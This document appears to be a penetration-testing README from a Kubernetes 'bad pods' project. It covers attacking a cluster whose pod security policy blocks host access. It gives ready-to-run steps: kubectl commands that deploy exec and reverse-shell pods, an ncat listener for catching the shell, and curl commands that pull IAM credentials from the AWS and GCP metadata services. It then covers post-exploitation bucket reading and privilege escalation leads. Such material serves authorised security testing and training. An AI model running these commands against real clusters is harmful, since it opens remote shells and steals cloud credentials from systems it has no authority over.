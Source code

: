 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
- [Bad Pod #8: Nothing allowed](#bad-pod-8-nothing-allowed)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
- [Post exploitation](#post-exploitation)
  - [Cloud metadata](#cloud-metadata)
    - [AWS](#aws)
    - [GCP](#gcp)
  - [Overly permissive service account](#overly-permissive-service-account)
  - [Anonymous-auth](#anonymous-auth)
  - [Exploits](#exploits)
  - [Traditional vulnerability hunting](#traditional-vulnerability-hunting)
- [Reference(s):](#references)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
kubectl exec -it nothing-allowed-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep nothing-allowed-exec-[RESOURCE_TYPE]      
kubectl exec -it nothing-allowed-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe nothing-allowed-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

## Cloud metadata
If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both.
### AWS
```bash
curl http://169.254.169.254/latest/user-data #Look for credentials or bucket names
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ #List's role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] # Get creds
```
### GCP
Test to see if you have access to the metadata service:
```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'
126817330210-compute@developer.gserviceaccount.com/
default/
```

**See permissions assigned to default service account**
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append
```

If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `gcr.io/google.com/cloudsdktool/cloud-sdk:latest` image. This allows you to use `gcloud` and `gsutil` as the node.

Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-gcloud-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-gcloud-pod
    image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Example: Find buckets, list objects, and read file contents**
```
root@nothing-allowed-gcloud-pod:/# gsutil ls
gs://playground-test123/

root@nothing-allowed-gcloud-pod:/# gsutil ls gs://playground-test123
gs://playground-test123/luggage_combination.txt

root@nothing-allowed-gcloud-pod:/# gsutil cat gs://playground-test123/luggage_combination.txt
12345
```

An awesome GCP privesc reference: https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

### Azure


## Overly permissive service account
If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.

## Anonymous-auth
If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 

## Exploits
Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
## Traditional vulnerability hunting
Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 

   [This write-up of a CTF challenge](https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html) created by Madhu Akula demonstrates a pretty common post exploitation pattern



# Reference(s): 

* https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
